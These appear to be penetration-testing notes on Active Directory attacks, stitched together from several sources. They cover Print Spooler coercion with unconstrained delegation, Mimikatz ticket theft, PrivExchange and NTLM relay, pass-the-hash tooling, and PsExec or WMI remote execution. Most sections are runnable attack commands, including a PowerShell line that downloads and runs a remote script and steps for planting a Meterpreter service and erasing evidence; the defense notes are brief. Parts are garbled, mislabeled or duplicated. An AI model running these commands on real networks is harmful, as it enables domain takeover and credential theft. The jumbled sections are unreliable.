This attack **combines Print Spooler Abuse** and **Unconstrained Delegation** to steal a **TGT from a Domain Controller**.

### **1️⃣ The Attacker Compromises a Machine with Unconstrained Delegation**

*   The attacker **already controls** a machine that has **Unconstrained Delegation enabled** (e.g., a misconfigured web server).
*   Any **user or service that authenticates to this machine** will have their **TGT stored in memory**.

💡 **Find Unconstrained Delegation Machines** Run this command to find computers with **Unconstrained Delegation** enabled:

`Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation`

Any machine listed **can store TGTs of users who authenticate to it**.

* * *

### **2️⃣ The Attacker Exploits Print Spooler Abuse to Force the DC to Authenticate**

*   The attacker **forces the Domain Controller (DC) to authenticate** to the **compromised machine** by using the **Print Spooler vulnerability**.
*   The Print Spooler **automatically authenticates** to remote print servers when requested.

💻 **Command to Force Authentication**  
Use **SpoolSample** to make the **DC authenticate** to the attacker's machine:

`SpoolSample.exe attacker-host victim-DC`

*   `attacker-host`: The machine with **Unconstrained Delegation** enabled.
*   `victim-DC`: The **Domain Controller** (which has a TGT we want to steal).

💡 **What happens here?**

*   The **DC sends an authentication request** to the attacker’s machine.
*   Since the attacker’s machine has **Unconstrained Delegation**, the **DC's TGT is stored in memory**.

* * *

### **3️⃣ Attacker Extracts the Domain Controller's TGT**

*   Since the **DC's TGT** is stored in memory on the attacker-controlled machine, the attacker can **extract it** and **reuse it**.

💻 **Dump the TGT using Mimikatz** On the attacker’s machine, run:

`mimikatz sekurlsa::tickets /export`

*   This will **export all Kerberos tickets** stored in memory.
*   The attacker can now **steal the DC’s TGT** and use it for **Pass-the-Ticket (PTT) attacks**.

* * *

### **4️⃣ Attacker Uses the Stolen TGT to Become a Domain Admin**

*   With the **DC’s TGT**, the attacker can now **impersonate the DC** and request access to any system in the domain.

💻 **Pass the Ticket (PTT)**

`mimikatz kerberos::ptc TGT_domaincontroller.kirbi`

Now the attacker has **full control** over Active Directory.

🎯 **What can the attacker do next?**

*   **Create new accounts with domain admin rights**
*   **Dump all password hashes from Active Directory**
*   **Compromise all machines in the network**

* * *

**🛡️ How to Defend Against This Attack**
-----------------------------------------

### **1️⃣ Disable Unconstrained Delegation**

`Set-ADComputer -Identity "VulnerableMachine" -TrustedForDelegation $false`

💡 **Unconstrained Delegation is almost always a security risk!**

### **2️⃣ Disable the Print Spooler Service on DCs**

`Stop-Service -Name Spooler -Force Set-Service -Name Spooler -StartupType Disabled`

💡 **DCs do not need printing services. Disabling Print Spooler prevents this attack.**

### **3️⃣ Monitor for Suspicious Authentication Requests**

Use **Event Logs** to detect unusual **Kerberos authentication requests** from the DC.

### **4️⃣ Enable SMB Signing**

`Set-SmbServerConfiguration -EnableSMB1Protocol $false -RequireSecuritySignature $true -Force`

💡 **This prevents NTLM relay attacks used in Print Spooler abuse.**

**📌 1. RCP Force Authentication (Remote Procedure Call)**
----------------------------------------------------------

### **🛠️ What is it?**

RCP (Remote Procedure Call) **forces a Windows server to authenticate** to an arbitrary machine using various network services.

💡 **Why is this useful?**

*   If an attacker can force a server (especially a **Domain Controller**) to authenticate to their system, they can **capture authentication hashes** or **relay the authentication** to escalate privileges.
*   This is especially dangerous when **SMB signing is disabled**, allowing NTLM relay attacks.

### **🚀 How Does the Attack Work?**

1.  The attacker **tricks a Windows server** into making an **RCP request** to their machine.
2.  The Windows server **authenticates using NTLM**.
3.  The attacker can:
    *   **Capture NTLM hashes** for offline cracking.
    *   **Relay NTLM authentication** to gain access to other machines (if SMB signing is disabled).

### **💻 Tool: Coercer**

📌 **[Coercer (GitHub)](https://github.com/p0dalirius/Coercer)** automates this attack with **12 different coercion methods**.

💻 **Command Example**

`python3 Coercer.py -t <Target_IP> -l <Attacker_IP>`

*   `<Target_IP>` = The Windows server you want to force authentication from.
*   `<Attacker_IP>` = Your attacker machine that will receive the authentication request.

🔥 **Attack Example:**

*   Run **Responder** or **NTLMRelayX** to **capture or relay authentication**:
    
    `responder -I eth0`
    
*   Now use **Coercer** to force authentication:
    
    `python3 Coercer.py -t 192.168.1.10 -l 192.168.1.100`
    
    *   If SMB signing is disabled, the captured NTLM hash can be **relayed** to gain access to the domain.

### **🛡️ How to Defend**

✅ **Disable unnecessary RCP services**.  
✅ **Enforce SMB signing** to prevent NTLM relay.  
✅ **Monitor Event Logs** for suspicious network authentication attempts.

* * *

**📌 2. PrivExchange**
----------------------

### **🛠️ What is it?**

PrivExchange is an attack on **Microsoft Exchange Server** that **forces it to authenticate to an attacker-controlled system**.

💡 **Why is this dangerous?**

*   Exchange **runs with SYSTEM privileges** and has excessive **WriteDACL** rights on the domain.
*   An attacker can **relay authentication** to LDAP, modify AD permissions, and gain **Domain Admin access**.

### **🚀 How Does the Attack Work?**

1.  The attacker **tricks the Exchange server** into authenticating to them using **PushSubscription abuse**.
2.  Exchange **authenticates using NTLM** to the attacker-controlled machine.
3.  The attacker **relays the authentication** to Active Directory (LDAP).
4.  The attacker **modifies AD permissions** to escalate privileges and become **Domain Admin**.

### **💻 Attack Execution**

🔥 **Prerequisites:**

*   NTLM relay tools like `NTLMRelayX`
*   PrivExchange script

#### **Step 1: Setup NTLM Relay**

💻 **Start NTLM Relay Attack**

`ntlmrelayx.py -t ldap://dc.example.com --escalate-user victimuser`

*   `ldap://dc.example.com` = The Domain Controller
*   `--escalate-user` = The target user to escalate privileges

#### **Step 2: Exploit Exchange Authentication**

💻 **Trigger the attack using PrivExchange**

`python3 privexchange.py -ah <Attacker_IP> -u <Domain_User> -p <Password> -d <Domain>`

*   `<Attacker_IP>` = The machine where NTLM relay is running
*   `<Domain_User>` = Any valid domain user with a mailbox
*   `<Domain>` = The domain name

#### **Step 3: Escalate Privileges**

*   If successful, the attacker **modifies AD permissions** and grants themselves Domain Admin privileges.

🔥 **Final Step: Dump AD Password Hashes**

`secretsdump.py -just-dc-ntlm domain/admin@dc.example.com`

Now the attacker has **full control of Active Directory**.

### **🛡️ How to Defend**

✅ **Apply Exchange patches (CVE-2019-1040, CVE-2019-1019)**.  
✅ **Disable NTLM authentication for Exchange**.  
✅ **Enforce LDAP signing** to prevent NTLM relay.

* * *

**🎯 Summary**
--------------

| Attack | What It Does | Risk Level |
|---|---|---|
|**RCP Force Authentication**|Forces a Windows server to authenticate to an attacker machine, enabling NTLM relay or credential theft.|🔥 High|
|**PrivExchange**|Forces Exchange to authenticate to an attacker, allowing **privilege escalation to Domain Admin**.|🔥🔥 Critical|

Both attacks rely on **NTLM authentication** and can be prevented by:

1.  **Disabling NTLM** wherever possible.
2.  **Enforcing SMB and LDAP signing** to prevent NTLM relay.
3.  **Patching Exchange servers** and removing excessive privileges.

### Inside Windows
If you are already inside the Windows machine you can force Windows to connect to a server using privileged accounts with:

Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
MSSQL
sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```

MSSQLPwner

```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```

Or use this other technique: https://github.com/p0dalirius/MSSQL-Analysis-Coerce

### HTML injection

### Cracking NTLMv1

You could abuse some credentials/sessions you already have on the AD to ask the printer to authenticate against some host under your control. Then, using metasploit auxiliary/server/capture/smb or responder you can set the authentication challenge to 1122334455667788, capture the authentication attempt, and if it was done using NTLMv1 you will be able to crack it.
If you are using responder you could try to **use the flag --lm ** to try to downgrade the authentication.
Note that for this technique the authentication must be performed using NTLMv1 (NTLMv2 is not valid).

### Impacket Windows compiled tools
You can download impacket binaries for Windows here.

- psexec_windows.exe C:\AD\MyTools\psexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.my.domain.local
- wmiexec.exe wmiexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local
- atexec.exe (In this case you need to specify a command, cmd.exe and powershell.exe are not valid to obtain an interactive shell)C:\AD\MyTools\atexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local 'whoami'
- There are several more Impacket binaries...
Invoke-TheHash
You can get the powershell scripts from here: https://github.com/Kevin-Robertson/Invoke-TheHash

### Invoke-SMBExec

`Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose`

### Invoke-WMIExec

`Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose`

### Invoke-SMBClient

`Invoke-SMBClient -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 [-Action Recurse] -Source \\dcorp-mgmt.my.domain.local\C$\ -verbose`

### Invoke-SMBEnum

`Invoke-SMBEnum -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 -Target dcorp-mgmt.dollarcorp.moneycorp.local -verbose`

### Invoke-TheHash
This function is a mix of all the others. You can pass several hosts, exclude someones and select the option you want to use (SMBExec, WMIExec, SMBClient, SMBEnum). If you select any of SMBExec and WMIExec but you don't give any Command parameter it will just check if you have enough permissions.

`Invoke-TheHash -Type WMIExec -Target 192.168.100.0/24 -TargetExclude 192.168.100.50 -Username Administ -ty    h F6F38B793DB6A94BA04A52F1D3EE92F0`

### PsExec, WinExec, and ScExec

**🔍 PsExec, WinExec, and ScExec – Remote Code Execution via SMB**
==================================================================

These tools and methods allow **remote code execution** by **creating and executing a service** on a remote Windows machine over SMB (Server Message Block).

* * *

**📌 How These Tools Work**
---------------------------

The fundamental process involves **manipulating Windows services** remotely to execute code. The steps are:

### **1️⃣ Copy the Malicious Binary to ADMIN$ (SMB Share)**

*   **ADMIN$** is a hidden administrative share that maps to `C:\Windows\` on a Windows machine.
*   The attacker **copies the payload** (e.g., `met8888.exe`) to this share.
*   This requires **administrative credentials** and **SMB access**.

**Example (Manual Copy Command):**

`copy met8888.exe \\TargetIP\ADMIN$\met8888.exe`

* * *

### **2️⃣ Create a Service on the Remote Machine**

*   Windows services can be created remotely using the `sc` (Service Control) command.
*   The attacker creates a service that **executes the uploaded binary**.

**Example (Creating the Malicious Service):**

`sc \\TargetIP create meterpreter binPath= "C:\Windows\met8888.exe" start= auto`

*   `sc \\TargetIP` → Connects to the target machine.
*   `create meterpreter` → Creates a new service named **meterpreter**.
*   `binPath= "C:\Windows\met8888.exe"` → Points the service to execute the payload.
*   `start= auto` → Configures the service to start automatically.

* * *

### **3️⃣ Start the Service**

*   The attacker **starts** the newly created service to execute the payload.
*   The service may generate an error (`time-out error`), but **this does not matter** since the binary still runs.

**Example (Starting the Service):**

`sc \\TargetIP start meterpreter`

🎯 **At this point, the payload (e.g., Meterpreter) executes and establishes a reverse shell!** 🎯

* * *

### **4️⃣ Stop and Delete the Service (Cleanup)**

*   Once the payload is executed, the attacker **stops and deletes** the service to cover tracks.

**Example (Stopping the Service):**

`sc \\TargetIP stop meterpreter`

**Example (Deleting the Service):**

`sc \\TargetIP delete meterpreter`

*   This ensures the malicious service is removed from the system logs.
*   The attacker may also delete the binary **to erase evidence**.

* * *

**📌 PsExec – Automating the Process**
--------------------------------------

[**PsExec**](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) (part of Sysinternals Suite) simplifies **remote service execution**. Instead of manually creating and starting a service, PsExec does everything in one command.

### **🔥 Example (Using PsExec to Execute a Command Remotely)**

`psexec \\TargetIP -u admin -p password -s -i cmd.exe`

*   `\\TargetIP` → Target machine
*   `-u admin -p password` → Authenticate with admin credentials
*   `-s` → Run as **System** (NT AUTHORITY\\SYSTEM)
*   `-i cmd.exe` → Open an **interactive command shell**

**🔥 Example (Executing a Meterpreter Payload with PsExec)**

`psexec \\TargetIP -u admin -p password -s -d C:\Windows\met8888.exe`

*   `-d` → Run in **detached mode** (doesn't wait for completion).
*   The payload executes on the target **without creating a visible window**.

* * *

**📌 WinExec and ScExec**
-------------------------

These tools are **alternative methods** for remote execution.

### **💡 WinExec**

*   A Windows API function that **launches a process** on the local system.
*   Used in exploits where the attacker injects shellcode that calls **WinExec("cmd.exe")** to spawn a shell.

### **💡 ScExec**

*   Works similarly to `sc.exe`, but automates **service creation** and execution remotely.

* * *

**🛡️ How to Defend Against These Attacks**
-------------------------------------------

✅ **Block SMB (Port 445) on External Networks** to prevent remote access.  
✅ **Restrict ADMIN$ Access** so only trusted users can interact with it.  
✅ **Enable Windows Defender Credential Guard** to prevent credential theft.  
✅ **Audit Event Logs (4624, 4672, 7036)** to detect abnormal service creation.  
✅ **Use Windows Firewall Rules** to block unauthorized remote service execution.

**Smbexec** is a tool used for remote command execution on Windows systems, similar to Psexec, but it avoids placing any malicious files on the target system.
This method is useful for executing one-time commands on a Windows target. For instance, pairing it with Metasploit's web_delivery module allows for the execution of a PowerShell-targeted reverse Meterpreter payload.

### WMI Enumeration
#### WMI Service Status
Commands to verify if the WMI service is operational:

```bash
# WMI service status check
Get-Service Winmgmt

# Via CMD
net start | findstr "Instrumentation"
```

#### System and Process Information
Gathering system and process information through WMI:

```bash
Get-WmiObject -ClassName win32_operatingsystem | select * | more
Get-WmiObject win32_process | Select Name, Processid
For attackers, WMI is a potent tool for enumerating sensitive data about systems or domains.
```

```bash
wmic computerystem list full /format:list
wmic process list /format:list
wmic ntdomain list /format:list
wmic useraccount list /format:list
wmic group list /format:list
wmic sysaccount list /format:list
```

Remote querying of WMI for specific information, such as local admins or logged-on users, is feasible with careful command construction.

#### Manual Remote WMI Querying
Stealthy identification of local admins on a remote machine and logged-on users can be achieved through specific WMI queries. wmic also supports reading from a text file to execute commands on multiple nodes simultaneously.

To remotely execute a process over WMI, such as deploying an Empire agent, the following command structure is employed, with successful execution indicated by a return value of "0":

```bash
wmic /node:hostname /user:user path win32_process call create "empire launcher string here"
```

This process illustrates WMI's capability for remote execution and system enumeration, highlighting its utility for both system administration and penetration testing.

### How Does it works
At allows to schedule tasks in hosts where you know username/(password/Hash). So, you can use it to execute commands in other hosts and get the output.

## Using Credentials to Own Windows Boxes - Part 1 (from Kali)
### Spray and Pray
- msfconsole
- CrackMapExec

### Make it rain shells
We now know where our compromised user is an administrator at 10.9.122.5. How many ways can we get a shell?
- Metasploit psexec
- Winexe
- psexec.py
- smbexec.py : This one is a bit “stealthier” as it doesn’t drop a binary on the target system.
- wmiexec.py : Under the hood this one uses Windows Management Instrumentation (WMI) to launch a semi-interactive shell.
- CrackMapExec : it’s basically doing the exact same thing as wmiexec.py, but let’s you do it across a range of IPs
- Using Remote Desktop

:::TIP
You can use Impacket’s rdp_check to see if you have RDP access, then use Kali’s rdesktop to connect
:::

## Using Credentials to Own Windows Boxes - Part 2 (PSExec and Services)
- SMB Login : 
    - In Windows, you can utilize the net use command with credentials to establish an SMB connection with a host
    - We can see which connections we have open by issuing a net use command:
    - If an administrator on ordws01 ran a net session command, he would see a connection open from our attacking box
    - From our attack box, we can terminate all sessions with net use /delete *

## Using ‘runas’ to get Kerberos auth

**📌 What Does `runas /netonly` Do?**
-------------------------------------

The `runas` command allows you to **execute a program** as a different user. The `/netonly` flag makes Windows **only use the provided credentials when accessing network resources** (like SMB or LDAP), **without actually switching the local user session**.

### **💡 Key Facts:**

✔️ The credentials are **not verified locally**—they are only used when accessing network resources.  
✔️ The attacker can **interact with the domain** (e.g., access SMB shares, query LDAP) without being **fully authenticated**.  
✔️ The attacker's machine **does not need to be domain-joined**.

* * *

**🎯 How an Attacker Uses It**
------------------------------

If an attacker has **valid domain credentials** (from phishing, OSINT, or leaked passwords), they can use `runas /netonly` to **execute commands as a domain user** without actually joining the domain.

### **🔹 Example: Accessing a Domain File Share Without Being on a Domain**

`runas /netonly /user:Domain\Alice cmd.exe`

*   This opens a new **command prompt (`cmd.exe`) as Alice**, but only when accessing network resources.
*   If Alice has permission to access an SMB share, the attacker can now reach it.

**Accessing an SMB Share:**

`\\DC01\SharedFolder`

*   This will use **Alice’s credentials** even though the machine is not in the domain.

* * *

**🎯 How Attackers Use It for Lateral Movement**
------------------------------------------------

### **1️⃣ Enumerating Domain Information via LDAP**

Attackers can query **Active Directory (AD)** using PowerShell or tools like `ldapsearch`:

`runas /netonly /user:Domain\Admin powershell.exe`

Then, inside the **PowerShell session**, they can query LDAP:

`[System.DirectoryServices.DirectorySearcher]::new()`

* * *

### **2️⃣ Using RDP to Access Domain Machines**

If the credentials belong to an admin, they can open **Remote Desktop (mstsc.exe)** to a domain machine:

`runas /netonly /user:Domain\Bob mstsc.exe`

Now, they can **log into Bob’s machine remotely**.

* * *

### **3️⃣ Executing Remote Attacks Without Domain Join**

Attackers can use **SMB-based tools** like `wmic` or `PsExec`:

`runas /netonly /user:Domain\Admin cmd.exe wmic /node:DC01 process call create "cmd.exe /c whoami"`

This runs a command **remotely on the domain controller** as the **domain user**.

* * *

**🛡️ Defenses Against This Attack**
------------------------------------

✅ **Monitor and Log `runas /netonly` Usage** – It should rarely be used legitimately.  
✅ **Use LAPS for Local Admins** – Randomizes local admin passwords to prevent lateral movement.  
✅ **Enable Network Access Restrictions** – Limit which users can authenticate remotely.  
✅ **Deploy Conditional Access Policies** – Require MFA for sensitive actions.

### PSExec
- PsExec is a light-weight telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software
- It’s a standalone binary that’s included in the Sysinternals suite.

### SMBExec

## Using Credentials to Own Windows Boxes - Part 3 (WMI and WinRM)

In Part 1 I showed some of my favorite tools and techniques for popping shells from Kali Linux. I used Metasploit, CrackMapExec, winexe, and some of the included scripts with the Impacket library to get interactive and semi-interactive shells on Windows machines once I knew a valid domain user’s credentials.

In Part 2 I revisited some of the same techniques in Part 1, but performed all the attacks from a Windows machine. I used runas to get a Kerberos TGT for the compromised account and used the built in net commands to explore the domain. Then I used psexec and remote services to get shells and command execution on the target Windows box.

## WMI
Windows Management Instrumentation (WMI) is the infrastructure for management data and operations on Windows-based operating systems.

WMI is an incredibly powerful feature that allows remote querying and administration of Windows devices. Think of it like SNMP for Windows infrastructure.

From an attacker’s perspective, WMI can be very valuable in enumerating sensitive information about a system or the domain.

From Windows, wmic is the command line interface for querying WMI. Simply typing wmic will drop you into an interactive command prompt where you can query information about the system via WMI. Issuing a /?

:::Note
When working from the command prompt, it’s useful to append “list brief” or “list full” for easy to read output. You can also append “/format:list” in the command line
:::

```bash
wmic computerystem list full /format:list
wmic process list /format:list
wmic ntdomain list /format:list
wmic useraccount list /format:list
wmic group list /format:list
wmic sysaccount list /format:list
```

here’s a very stealthy way to discover local admins on a remote machine (note that domain is the computer name):

`wmic /node:ordws01 path win32_groupuser where (groupcomponent="win32_group.name=\"administrators\",domain=\"ORDWS01\"")`

Another useful oneliner is to see who is logged on to a machine (for when you’re hunting admins):

`wmic /node:ordws01 path win32_loggedonuser get antecedent`

### WMI Process Create

The Win32_Process class can be called via WMI to query, modify, terminate, and create running processes.

here’s a command to launch “calc.exe” on a local machine via a WMI statement
`wmic path win32_process call create "calc.exe"`

This is the same technique that the Kali tools “wmiexec.py”, “wmis” and CrackMapExec use.

### WinRM
Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it’s utilizing WMI, so you can think of it as an HTTP based API for WMI.

The easiest way to detect whether WinRM is available is by seeing if the port is opened. WinRM will listen on one of two ports:
- 5985/tcp (HTTP)
- 5986/tcp (HTTPS)

https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/


## Steal NTLM Creds
If you can access other PCs or shares with the null or guest user you could place files (like a SCF file) that if somehow accessed will trigger an NTML authentication against you so you can steal the NTLM challenge to crack it


